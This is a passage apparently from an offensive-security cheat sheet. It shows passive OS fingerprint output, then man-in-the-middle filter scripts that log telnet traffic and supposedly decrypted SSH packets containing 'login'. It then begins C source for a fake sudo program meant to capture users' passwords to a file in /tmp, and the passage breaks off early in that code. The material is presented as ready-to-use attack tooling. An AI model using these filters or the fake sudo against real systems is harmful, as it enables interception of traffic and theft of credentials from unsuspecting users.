 .-[ 172.16.0.23/35834 -> 172.16.0.79/22 (syn) ]-
|
| client   = 172.16.0.23/35834
| os       = Linux 4.11 and newer
| dist     = 0
| params   = none
| raw_sig  = 4:64+0:0:1460:mss*20,7:mss,sok,ts,nop,ws:df,id+:0
```

## Advanced Mitm Attacks with Bettercap Filters:

Display a message if the tcp port is 22:

```
if (ip.proto == TCP) {
   if (tcp.src == 22 || tcp.dst == 22) {
      msg("SSH packet\n");
   }
}
```

Log all telnet traffic:

```
if (ip.proto == TCP) {
   if (tcp.src == 23 || tcp.dst == 23) {
      log(DATA.data, "./telnet.log");
   }
}
```

Log ssh decrypted packets matching the regexp:

```
if (ip.proto == TCP) {
   if (tcp.src == 22 || tcp.dst == 22) {
      if (regex(DECODED.data, ".*login.*")) {
         log(DECODED.data, "./decrypted_log");
      }
   }
}
```

## Fake Sudo Program to Harvest Credentials:

Mimics legitimate Sudo binary to capture credentials and output to ```/tmp``` directory file.

```C
#include <stdio.h>
#include <stdlib.h>
#include <termios.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>


int main( int argc, char *argv[] )
{
    if( argc == 2 ) {
        struct termios oflags, nflags;
```